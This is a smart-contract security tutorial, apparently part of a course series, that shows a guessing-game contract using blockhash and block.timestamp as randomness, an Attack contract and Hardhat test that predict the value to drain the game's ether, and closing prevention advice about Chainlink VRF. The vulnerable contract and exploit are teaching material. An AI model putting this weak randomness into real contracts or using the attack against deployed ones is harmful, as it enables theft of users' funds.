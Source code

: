 # Source of Randomness

![](https://d2r55xnwy6nx47.cloudfront.net/uploads/2019/06/QuantumRandomness_2880x1620_Still.jpg)

Randomness is a hard problem. Computers run code that is written by programmers, and follows a given sequence of steps. As such, it is extremely hard to design an algorithm that will give you a 'random' number, since that random number must be coming from an algorithm that follows a certain sequence of steps. Now, of course, some functions are better than others.

In this case, we will specifically look at why you cannot trust on-chain data as sources of randomness (and also why Chainlink VRF's, that we used in Junior, were created).

## Requirements

- We will build a game where there is a pack of cards.
- Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
- Player will guess a number that is going to be picked up.
- The dealer will then at random pick up a card from the pack
- If someone correctly guesses the number, they win `0.1 ETH`
- We will hack this game today :)

## Build

To build the smart contract we will be using [Hardhat](https://hardhat.org/).
Hardhat is an Ethereum development environment and framework designed for full stack development in Solidity. In simple words you can write your smart contract, deploy them, run tests, and debug your code.

- In you folder, you will set up a Hardhat project

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```
  
- If you are on Windows, please do this extra step and install these libraries as well :)

  ```bash
  npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a Hardhat project ready to go!

- Lets first understand what `abi.encodedPacked` does. 
  
  We have previously used `abi.encode` in the Sophomore NFT tutorial. It is a way to concatenate multiple data types into a single bytes array, which can then be converted to a string. This is used to compute the `tokenURI` of NFT collections often. `encodePacked` takes this a step further, and concatenates multiple values into a single bytes array, but also gets rid of any padding and extra values. What does this mean? Let's take `uint256` as an example. `uint256` has 256 bits in it's number. But, if the value stored is just `1`, using `abi.encode` will create a string that has 255 `0`'s and only 1 `1`. Using `abi.encodePacked` will get rid of all the extra 0's, and just concatenate the value `1`.

For more information on `abi.encodePacked`, go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

- Create a file named as `Game.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    contract Game {
    constructor() payable {}

        /**
            Randomly picks a number out of `0 to 2²⁵⁶–1`.
        */
        function pickACard() private view returns(uint) {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint pickedCard = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            return pickedCard;
        }

        /**
            It begins the game by first choosing a random number by calling `pickACard`
            It then verifies if the random number selected is equal to `_guess` passed by the player
            If the player guessed the correct number, it sends the player `0.1 ether`
        */
        function guess(uint _guess) public {
            uint _pickedCard = pickACard();
            if(_guess == _pickedCard){
                (bool sent,) = msg.sender.call{value: 0.1 ether}("");
                require(sent, "Failed to send ether");
            }
        }

        /**
            Returns the balance of ether in the contract
        */
        function getBalance() view public returns(uint) {
            return address(this).balance;
        }

    }
  ```

- Now create a file called as `Attack.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    import "./Game.sol";

    contract Attack {
        Game game;
        /**
            Creates an instance of Game contract with the help of `gameAddress`
        */
        constructor(address gameAddress) {
            game = Game(gameAddress);
        }

        /**
            attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
            is accessible publically
        */
        function attack() public {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint _guess = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            game.guess(_guess);
        }

        // Gets called when the contract recieves ether
        receive() external payable{}
    }
  ```

- How the attack takes place is as follows:

  - The hacker calls the `attack` function from the `Attack.sol`
  - `attack` further guesses the number using the same method as `Game.sol` which is
    `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`
  - Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  - The attacker then calls the `guess` function from `Game.sol`
  - `guess` first calls the `pickACard` function which generates the same number using `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))` because `pickACard` and `attack` were both called in the same block.
  - `guess` compares the numbers and they turn out to be the same.
  - `guess` then sends the `Attack.sol` `0.1 ether` and the game ends
  - Attacker is successfully able to guess the random number

- Now lets write some tests to verify if it works exactly as we hoped.

- Create a new file named `attack.js` inside the `test` folder and add the following lines of code

  ```javascript
  const { ethers, waffle } = require("hardhat");
  const { expect } = require("chai");
  const { BigNumber, utils } = require("ethers");

  describe("Attack", function () {
    it("Should be able to guess the exact number", async function () {
      // Deploy the Game contract
      const Game = await ethers.getContractFactory("Game");
      const _game = await Game.deploy({ value: utils.parseEther("0.1") });
      await _game.deployed();

      console.log("Game contract address", _game.address);

      // Deploy the attack contract
      const Attack = await ethers.getContractFactory("Attack");
      const _attack = await Attack.deploy(_game.address);

      console.log("Attack contract address", _attack.address);

      // Attack the Game contract
      const tx = await _attack.attack();
      await tx.wait();

      const balanceGame = await _game.getBalance();
      // Balance of the Game contract should be 0
      expect(balanceGame).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now open up a terminal pointing to `Source-of-Randomness` folder and execute this

  ```bash
  npx hardhat test
  ```

- If all your tests passed, you have sucessfully completed the hack :)

## Preventions

- Don't use `blockhash`, `block.timestamp`, or really any sort of on-chain data as sources of randomness
- You can use [Chainlink VRF's](https://docs.chain.link/docs/chainlink-vrf/) for true source of randomness

## References
Image fetched from [Quanta Magazine](https://d2r55xnwy6nx47.cloudfront.net/uploads/2019/06/QuantumRandomness_2880x1620_Still.jpg)
